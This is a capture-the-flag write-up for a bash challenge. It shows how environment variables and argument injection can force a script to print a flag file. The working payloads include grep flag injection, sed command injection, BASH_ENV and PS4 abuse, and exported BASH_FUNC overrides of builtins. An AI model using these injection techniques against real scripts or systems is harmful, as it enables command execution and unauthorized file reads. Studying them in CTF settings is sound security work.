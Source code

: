 The server greets us with
```
Hello! Send me a json array of [key, val, arg] lists and I will
execute `key=val bash script.sh arg' for each of them. You get
a flag when you have 10, 13, and 15 solutions with unique keys.
You may need to shutdown the input (send eof, -N in nc).
```

Let's address the elephant in the room first. Take a close look at this line
of the script:
```bash
    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
```

Looks like we can inject grep flags without any environment variables. After
a bit of fiddling, we discover that short options can take an argument without
a space: `-fflag`. This will search the input for the flag (read from the flag file).
We can also combine options. At this point, we see that `-rfflag` works locally,
as it searches the entire current directory for the contents of the `flag` file,
and finds it in the flag file.

However, when we send this to the server, it hits the timeout. This is not too
surprising, as we're searching through the entire filesystem. As an optimization,
we added the `-I` (ignore binaries) and `-F` (search for fixed string) flags.
This lets us get as many points as we need:
```
[
    ["bepis", "bepis", "-rIFflag"],
    ["bepiS", "bepis", "-rIFflag"],
    ["bepIs", "bepis", "-rIFflag"],
    ["bepIS", "bepis", "-rIFflag"],
    ["bePis", "bepis", "-rIFflag"],
    ["bePiS", "bepis", "-rIFflag"],
    ["bePIs", "bepis", "-rIFflag"],
    ["bePIS", "bepis", "-rIFflag"],
    ["bEpis", "bepis", "-rIFflag"],
    ["bEpiS", "bepis", "-rIFflag"],
    ["bEpIs", "bepis", "-rIFflag"],
    ["bEpIS", "bepis", "-rIFflag"],
    ["bEPis", "bepis", "-rIFflag"],
    ["bEPiS", "bepis", "-rIFflag"],
    ["bEPIs", "bepis", "-rIFflag"],
    ["bEPIS", "bepis", "-rIFflag"]
]
```

Unsurprisingly, this lead to the release of a patched challenge, "Regulated
Environmental Issues":
```diff
-    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
+    line="$(grep -- "${1:?Missing arg1: name}" < issues.txt)"
```

Let's look at the actual environment variables, then:

 - grep prepends `GREP_OPTIONS` to its arguments. When we set `GREP_OPTIONS=Flag`,
   we provide `Flag` as the search pattern, and the argument passed by the script
   turns into the path being searched.
   ```
   ["GREP_OPTIONS","Flag","flag"],
   ```
 - The script checks whether `USE_SED` is set. If so, we can inject sed commands.
   Let's terminate the search command, and then use the `r` command to read the
   flag file. Hide trailing characters with a comment.
   ```
   ["USE_SED","bepis","C/r flag\n#"],
   ```
 - `BASH_ENV` contains a path to a file that is sourced by bash when executing scripts
   (think `.bashrc`). `BASH_ENV=flag` makes bash print the flag to stderr, complaining
   that no such command exists.
   ```
   ["BASH_ENV","flag","bepis"],
   ```
 - `PS4` is the prompt used for tracing with `set -x`. It can contain variable
   and command expansions.
   ```
   ["PS4","`cat flag`","bepis"],
   ```
 - To progress further, we must learn that there is a way to export bash functions
   into the environment:
   ```
   ["BASH_FUNC_grep%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_set%%",  "() { cat flag; }", "bepis"],
   ["BASH_FUNC_test%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_echo%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_bash%%", "() { cat flag; }", "bepis"],
   ```
 - Surprisingly, `return` is not a keyword and can be overwritten too:
   ```
   ["BASH_FUNC_return%%", "() { cat flag; }", "bepis"],
   ```
 - Let's also not forget about the commands executed by the subshell spawned by the
   `quiet` function:
   ```
   ["BASH_FUNC_eval%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_exec%%", "() { cat flag; }", "bepis"],
   ```
 - `hash` is executed inside of `silent`, so printing the flag out of there
   is somewhat difficult. I chose to overwrite the `silent` function when `hash`
   is executed, and wait until it's used again at `silent imaginary`.
   ```
   ["BASH_FUNC_hash%%", "() { silent() { cat flag; }; return 1; }", "bepis"],
   ```
 - `cat` is even more problematic, as the entire shell in which it runs has no
   open file descriptors. We need to use procfs:
   ```
   ["BASH_FUNC_cat%%", "() { read flag < flag; echo $flag > /proc/$PPID/fd/1; }", "bepis"],
   ```
   (I am using `read` and `echo` instead of `cat` to avoid recursion. Just now, I have
   realized that `command cat` would also work.)
 - The last one is somewhat tricky, but that whole `imaginary` part of the script
   is makes you realize quite soon that you need to use the command not found hook
   that Ubuntu uses to tell you which apt package you need to install. A quick Google
   later, we obtain the final flag:
   ```
   ["BASH_FUNC_command_not_found_handle%%", "() { cat flag > /proc/$$/fd/1; }", "bepis"],
   ```

(Note that the above timeline is abridged. In reality, we realized how to exploit
the unintended grep issue after we already found 14 legitimate environment variables.)
